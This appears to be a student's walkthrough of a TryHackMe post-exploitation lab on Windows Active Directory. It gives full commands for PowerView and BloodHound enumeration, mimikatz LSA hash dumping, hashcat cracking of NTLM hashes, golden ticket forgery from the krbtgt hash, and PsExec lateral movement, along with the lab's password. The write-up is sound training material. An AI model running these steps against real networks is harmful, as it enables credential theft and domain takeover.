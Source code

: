 # Post-Exploitation Basics

**Room Link:** [https://tryhackme.com/room/postexploit](https://tryhackme.com/room/postexploit)



## Presteps for Lab

### SharpHound Installation

SharpHound version on the box is too old for the current version of Bloodhound so I had to update it.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git

scp -r BloodHound/Collectors/SharpHound.ps1 Administrator@$VICTIM:C:/Users/Administrator/
Password: P@$$W0rd
```

Added this line to SharpHound.ps1 before transfering so I could run the command right away

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
powershell -ep bypass
.\SharpHound.ps1
```

### BloodHound Installation

```
apt-get install bloodhound
neo4j console
```

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Powerview

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```



**Victim**

Run below to be able to run PowerView commands.

```
powershell -ep bypass
. .\Downloads\PowerView.ps1
```

Enumerate the domain users.

```
Get-NetUser | select cn
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Enumerate the domain groups.

```
Get-NetGroup -GroupName *admin*
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Find Shared folders.

```
Invoke-ShareFinder
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Get Operating systems on the network.

```
Get-NetComputer -fulldata | select operatingsystem
```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Bloodhound

Setup and get loot with Bloodhound.

**Victim**

```
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```



Transfer Bloodhound results back to Kali. SCP can be used in this case

**Kali**

```
scp Administrator@$VICTIM:C:/Users/Administrator/20230212071833_loot.zip loot.zip
Password: P@$$W0rd
```

### Mapping the network w/ BloodHound

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Find all Domain Admins

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

List all Kerberostable accounts

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## Dumping hashes w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

**Victim**

```
cd Downloads && mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /patch
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Copy to Kali output back to Kali

****![](<../../.gitbook/assets/image (3).png>)****

Output only the hashes and remove all duplicates into a new file.

**Kali**

```
cat hashes.txt | grep NTLM | awk -F ":" '{print $2}' | grep "\S" | sed 's/^[ \t]*//'  | sort | uniq > hash.txt
```

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

## Golden Ticket Attacks w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

### Dump the krbtgt Hash

**Victim**

```
cd downloads && mimikatz.exe
```

This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket. Take note of what is outlined in red you'll need it to create the golden ticket.

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Create a Golden Ticket

**Victim - Mimikatz**

```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Use the Golden Ticket to access other machine

This will open a new command prompt with elevated privileges to all machines.Access other Machines! - You will now have another command prompt with access to all other machines on the network.&#x20;

**Victim - Mimikatz**

```
misc::cmd
```

This doesn't actually work. Because of how tryhackme is setup but you would then be able to access other machines. In the example below you'd need to find out what other machines exists to pull this off.

**Victim**

```
dir \\Desktop-1\c$
PsExec.exe \\Desktop-1 cmd.exe
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Server Manager

**Kali**

```
rdesktop -d CONTROLLER -u Administrator $VICTIM
Password: P@$$W0rd
```

Open Active Directory

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
